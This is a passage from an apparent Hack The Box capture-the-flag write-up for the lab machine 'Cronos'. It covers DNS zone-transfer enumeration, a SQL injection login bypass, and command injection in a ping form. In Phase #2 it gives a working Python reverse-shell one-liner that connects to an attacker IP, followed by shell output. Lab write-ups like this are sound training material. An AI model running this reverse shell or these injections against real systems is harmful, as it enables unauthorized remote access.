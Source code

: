 3\. We start with DNS enumeration and with a reverse lookup and find that the subdomain `ns1.cronos.htb` is associated with the target IP. Since DNS is responding on TCP, we also perform a DNS zone transfer and find additional subdomains associated with the target IP:  
``` {.python .numberLines}
dig +noall +answer -x 10.10.10.13 @10.10.10.13
host -t axfr cronos.htb 10.10.10.13

```

![writeup.enumeration.steps.3.1](Box%20Write-ups/htb.cronos/screenshot01.png)  

![writeup.enumeration.steps.3.2](Box%20Write-ups/htb.cronos/screenshot02.png)  

4\. Upon visiting the `admin.cronos.htb` subdomain, we are presented with a login page, that is vulnerable to SQL injection:  

![writeup.enumeration.steps.4.1](Box%20Write-ups/htb.cronos/screenshot03.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp  |  ssh     |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp  |  domain  |  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  |  http    |  Apache httpd 2.4.18 ((Ubuntu))
```

\newpage
## Phase #2: Exploitation
1\. We use SQLi to successfully bypass login and are presented with a page that allows running the `ping` and `traceroute` commands. The input field on this page is vulnerable to a command injection:  

![writeup.exploitation.steps.1.1](Box%20Write-ups/htb.cronos/screenshot04.png)  

2\. We use this to execute a Python reverse shell and get interactive access on the target system:  
``` {.python .numberLines}
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

![writeup.exploitation.steps.2.1](Box%20Write-ups/htb.cronos/screenshot05.png)  

![writeup.exploitation.steps.2.2](Box%20Write-ups/htb.cronos/screenshot06.png)  

3\. We obtain the first flag since the file is readable by current user `www-data`:  

![writeup.exploitation.steps.3.1](Box%20Write-ups/htb.cronos/screenshot07.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@cronos> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos>  
www-data@cronos> uname
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos>  
www-data@cronos> ifconfig
ens160  Link encap:Ethernet  HWaddr 00:50:56:b9:26:e7
        inet addr:10.10.10.13  Bcast:10.10.10.255  Mask:255.255.255.0
```